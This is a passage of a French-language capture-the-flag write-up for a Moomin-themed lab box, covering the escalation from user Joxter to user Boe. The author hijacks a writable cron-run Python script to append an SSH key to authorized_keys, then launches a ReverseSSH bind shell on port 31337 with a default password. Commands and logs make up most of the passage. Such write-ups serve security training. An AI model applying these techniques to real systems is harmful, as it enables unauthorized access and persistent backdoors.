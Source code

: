 New challenger
--------------

Avec le compte obtenu on peut obtenir le second flag et agir sur la tache CRON lancée avec l'utilisateur Boe.  

```plain
Joxter@moee:~$ cat flag2.txt  
Congrats, Joxter though you were lazy and worry-free you got yourself with some OSINT.
Now it's your time to use the premonitions which you call "Forebodings" to protect Boe from a bigger disaster things.
For that you have to recall your mind like a cron things as in linux. 

 - Moominpappa's Memoirs (Boe)

Joxter@moee:~$ ls -al /opt/
total 12
drwxr-x---  2 Boe  devsec 4096 Nov 22  2020 .
drwxr-xr-x 22 root root   4096 Nov 11  2020 ..
-rwxrwxr--  1 Boe  devsec  379 Nov 22  2020 Flag.py
```

J'ai d'abord modifié le script Python pour qu'il ajoute ma clé publique SSH aux clés autorisées. L'action se passe correctement d'après *pspy* :  

```plain
2022/01/28 10:04:01 CMD: UID=0    PID=3992   | /usr/sbin/CRON -f 
2022/01/28 10:04:01 CMD: UID=1001 PID=3993   | python3 /opt/Flag.py 
2022/01/28 10:04:01 CMD: UID=1001 PID=3994   | sh -c mkdir -p /home/Boe/.ssh/ 
2022/01/28 10:04:01 CMD: UID=1001 PID=3995   | mkdir -p /home/Boe/.ssh/ 
2022/01/28 10:04:01 CMD: UID=1001 PID=3996   | sh -c echo ssh-rsa AAAAB---snip ---qcT7Q== > /home/Boe/.ssh/authorized_keys
```

Mais dans la pratique on dirait bien que l'authentification par clé est désactivée pour cet utilisateur.  

J'ai préféré lancer un ReverseSSH en mode bind :  

```python
os.system("/var/www/public_html/reverse-sshx64 &")
```

Par défaut ça nous ouvre un shell sur le port 31337. Le mot de passe est *letmeinbrudipls*.  

```plain
Joxter@moee:/var/www/public_html$ ss -lntp 
State      Recv-Q Send-Q                                                               Local Address:Port                                                                           Peer Address:Port  
LISTEN     0      128                                                                              *:22                                                                                        *:*      
LISTEN     0      50                                                                       127.0.0.1:3306                                                                                      *:*      
LISTEN     0      128                                                                             :::80                                                                                       :::*      
LISTEN     0      128                                                                             :::22                                                                                       :::*      
LISTEN     0      128                                                                             :::31337                                                                                    :::*
```
